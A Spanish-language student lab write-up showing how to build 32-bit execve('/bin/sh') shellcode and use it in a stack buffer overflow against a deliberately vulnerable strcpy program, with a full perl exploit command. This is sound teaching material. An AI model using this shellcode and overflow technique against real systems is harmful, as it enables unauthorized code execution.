 # Tarea #5: Shellcode Parte I

## Integrantes:
- Luis Fernando Benavides Villegas
- Alex Steven Naranjo Masís

## Código Ensamblador
Se comienza por crear el archivo `mysh.s`, pegamos el contenido y abrimos una terminal en el directorio de trabajo.  
El código en lenguaje ensamblador lo que hace es construir la cadena `"/bin//sh"` en la pila, preparar el arreglo `argv` y llamar a la interrupción del sistema para ejecutar `execve("/bin//sh", argv, NULL)`. Este pequeño programa será la base para generar el *shellcode* que usaremos posteriormente en el exploit.  
![mysh.s](https://hackmd.io/_uploads/HJZIH9ojgx.png)

## Ensamblando a Código Objeto
Se ejecuta `nasm -f elf32 mysh.s -o mysh.o` para ensamblar el código fuente en un archivo objeto en formato ELF de 32 bits.  
Este paso convierte las instrucciones escritas en ensamblador a instrucciones de máquina empaquetadas en un objeto ELF intermedio (`mysh.o`) que todavía no es ejecutable por sí solo. La opción `-f elf32` asegura que la salida sea compatible con enlazadores de 32 bits.  
![mysh.o](https://hackmd.io/_uploads/rJbIS5jsge.png)

## Enlazando el Código Binario
Se ejecuta `ld -m elf_i386 mysh.o -o mysh` para enlazar el objeto y producir un ejecutable ELF de 32 bits. Este enlazador toma el código objeto (`mysh.o`) y genera el binario final `mysh` que puede ejecutarse en el sistema.  

Luego ejecutamos `echo $$` para imprimir el PID (identificador del proceso) del *shell* actual antes de lanzar el programa, lo que nos permite comparar y verificar que al ejecutar `mysh` se inicia un nuevo proceso de shell con un PID distinto. Esto demuestra que el binario realmente crea un nuevo intérprete `/bin/sh`.  

Ejecutamos el archivo `mysh` y, después, volvemos a ejecutar `echo $$` para confirmar el cambio de PID, por lo que el `mysh` abrió un nuevo shell distinto al original.  
![mysh](https://hackmd.io/_uploads/B1bUr5sigl.png)

## Obteniendo el Código Máquina
Corremos `objdump -Mintel --disassemble mysh.o` para desensamblar el archivo objeto y ver las instrucciones junto con sus bytes en código máquina. Con este comando inspeccionamos la sección `.text` y localizamos el bloque de bytes que corresponde a nuestro `start`.  

Luego, para copiar más fácilmente la sección de bytes que nos interesa y eliminar el ruido que produce la salida del desensamblador, ejecutamos `xxd -p -c 20 mysh.o`. `xxd` imprime el contenido binario en hexadecimal en una sola línea por cada `-c` bytes, lo que facilita extraer el string de bytes contiguos que forman el shellcode.  

![extraer_binario](https://hackmd.io/_uploads/ry-ISqiige.png)

Entonces, podemos extraer el string de código máquina del primer comando utilizando la salida hex de `xxd`. Se selecciona sólo la sección de bytes correspondiente a la rutina `_start` (o la parte relevante del `.text`), ya que la salida completa contiene cabeceras y metadatos del ELF que no forman parte del shellcode ejecutable (la parte seleccionada en la imagen es la que queremos, que es la misma de los bytes del `objdump`).

## Dar Formato al String de Código Máquina
Se escribe un script sencillo en Python que toma el string hexadecimal continuo (`31db31c0...`) y lo convierte en una representación escapada (`\x31\xdb\x31\xc0...`), que es el formato necesario para incrustar el shellcode en cadenas en muchos lenguajes o en línea de comandos para exploits. Este script lee el hex, lo parsea en bytes y produce la cadena con `\x` delante de cada par hex.  

```python
# Aquí se pega el shellcode que se extrajo.
s = """
31c050682f2f7368682f62696e89e3505389e131d231c0b00bcd80
"""

# Convertir el string en bytes y luego formatearlo.
hex = bytes.fromhex(s)
hex_formateado = ''.join('\\x{:02x}'.format(b) for b in hex)

print(hex_formateado)
```

![formatear](https://hackmd.io/_uploads/rkWIHcsjel.png)

Nos retorna la representación lista para usar en el payload, por ejemplo:
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
```

## Explotar el Programa Vulnerable
Se descarga el programa vulnerable `test.c` y `a.out` y se abre con `gdb` para analizar su comportamiento y ubicar el buffer que podemos sobreescribir. Al depurarlo con `gdb` podemos observar estados, direcciones de memoria y establecer *breakpoints* para inspeccionar el contenido del stack en puntos concretos de la ejecución.  

El código del programa es:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int not_executed() {
  printf("*****Esta funcion no se ejecuta a menos que...*****\n");
  exit(2);
}

int main(int count, char *argument[]) {
  char buffer[100];
  
  if (count < 2) {
    printf("Se debe ingresar texto como entrada. Saliendo...\n");
    exit(1);
  }
  
  strcpy(buffer, argument[1]);
  printf("Yo soy main() y no ejecuto ninguna otra funcion\n");
  
  return 0;
} 
```

![programaVulnerable](https://hackmd.io/_uploads/BJeZUS5jogg.png)

Es posible que el binario venga sin permisos de ejecución, en cuyo caso se corrige con `chmod +x a.out` para poder ejecutarlo dentro de `gdb` o directamente desde la terminal.

Establecemos un breakpoint justo después de que el programa llena el buffer para poder inspeccionarlo fácilmente y así determinar cómo se organiza la memoria. Nuestro objetivo será sobrescribir el `return address` con lo que queramos. 

Ejecutamos `disassemble main` para ver los desplazamientos en main, y ejecutamos `break *main+63` para poner el breakpoint en donde queremos.

![breakpoint](https://hackmd.io/_uploads/BJ-8S5sjxg.png)

Hacemos una prueba ejecutando la función *muerta* `not_executed()` del código C, la cual no se ejecuta en el flujo normal pero existe en el binario. Buscamos su dirección en memoria con `print not_executed` y rellenamos el buffer y el EBP con 104 letras `a`, para luego poner la dirección en la dirección de retorno para que apunte a la función muerta. Es importante recordar que hay que escribir la dirección en formato *Little-Endian*, por lo que si es `0x8049875`, escribimos `\x75\x98\x04\x08`. Podemos ver como se rellenó el buffer ejecutando `x/40x buffer`.

Con esto confirmamos que somos capaces de controlar el flujo de ejecución reescribiendo la dirección de retorno. 

![pruebaNotExecuted](https://hackmd.io/_uploads/Bye-UScsixx.png)

Ahora que sabemos cómo llegar al `return address`, podemos construir el exploit final. Para determinar cuántas `a` se necesitan, calculamos el espacio total hasta la dirección de retorno. Restamos la cantidad necesaria para llenar el buffer (es de un tamaño de 100) y la cantidad ocupada por el EBP (4), y además se resta la longitud del shellcode si vamos a incluirlo antes de la zona de relleno. Por ejemplo, el largo de nuestro shellcode es de 27:
```
104 - 27 = 77
```
Entonces, después de colocar el shellcode, se necesitan 77 caracteres `a` para sobrescribir hasta la dirección de retorno correcta. La dirección de retorno que vamos a escribir será donde comienza el buffer, ya que de esta manera podemos referenciar a donde comienza el shellcode.

![construyendoComando](https://hackmd.io/_uploads/ry-UScssle.png)

Entonces, sabemos que el exploit que vamos a usar es:
```bash
run $(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80" . "a"x77 . "\xa4\xcd\xff\xff"')
```

![exploit](https://hackmd.io/_uploads/rkbLH9ooxg.png)

Y ahora, podemos ejecutar comandos desde la terminal que se abre.
